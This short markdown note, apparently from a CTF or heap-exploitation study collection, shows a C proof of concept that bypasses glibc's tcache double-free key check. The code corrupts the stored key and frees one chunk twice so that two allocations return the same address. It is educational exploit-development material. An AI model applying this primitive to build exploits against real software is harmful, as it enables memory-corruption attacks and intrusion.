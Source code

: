 <details>
<summary><strong>Description</strong></summary>
<p>

bypass tcache double free's key check...

</p>
</details>

<details>
<summary><strong>POC</strong></summary>
<p>

> compiled with glibc `2.31`, `2.35`, `2.38` and `2.39`

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    setbuf(stdin, NULL); // disable buffering so _IO_FILE does not interfere with our heap
    setbuf(stdout, NULL);

    long *chunk0, *chunk1, *duplicate_chunk;

    chunk0 = malloc(0x18); // request size need to in tcache range

    free(chunk0);
    // [tcache 0x20]: chunk0

    printf("tcache key: 0x%lx\n", chunk0[1]);

    // VULNERABILITY
    chunk0[1] = 0x4141414141414141; // modify to any value different with tcache key
    free(chunk0);
    // VULNERABILITY
    // [tcache 0x20]: chunk0 -> chunk0

    chunk1 = malloc(0x18);
    duplicate_chunk = malloc(0x18);
    printf("chunk1: %p\n", chunk1);
    printf("duplicate chunk: %p\n", duplicate_chunk);
}
```

</p>
</details>

<details>
<summary><strong>Ref</strong></summary>
<p>

- https://github.com/guyinatuxedo/Shogun/blob/main/pwn_demos/tcache/tcache_double_pass/readme.md
- https://github.com/johnathanhuutri/CTFNote/tree/master/Heap-Exploitation#double-free-table-of-content

</p>
</details>